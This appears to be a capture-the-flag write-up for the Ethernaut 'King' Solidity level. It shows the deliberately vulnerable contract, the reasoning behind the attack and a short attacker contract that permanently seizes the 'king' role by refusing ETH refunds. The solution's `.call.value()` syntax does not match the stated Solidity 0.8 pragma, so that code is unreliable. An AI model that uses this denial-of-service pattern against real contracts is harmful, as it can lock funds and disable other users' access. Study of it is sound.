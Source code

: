 # **Level 9 -- King**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
`````` 
---
## ***Objectives***
* Become the king and prevent anyone else from becoming the king afterwards 
---
## ***Thought Process***
This contract lacks any function that can be actively triggered by us. The `_king` function serves as a view function, so we do not need to use it. We only have the `receive()` function that we can use.

As we know, the `receive` function is invoked when the contract receives ETH. Once we send more ETH than the old king, we can satisfy the `msg.value >= prize` requirement. Consequently, the previous king will get our ETH, and we ascend to the position of the new king.

Nonetheless, if someone sends an ETH amount surpassing ours, they will take away our king. To maintain our kingship indefinitely, we should let the `receive` function be reverted. Thus, the challenge circles back to receiving ETH. It is obvious that EOA can not make the ETH transaction to revert. As a result, our strategy should be to create a contract without `receive() payable` or `fallback() payable` function, which would prompt the transaction to fail upon receiving ETH.

---
## ***Solution***
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingHacker {
    function kingship(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
        require(sent, "Failed");
    }
}
```



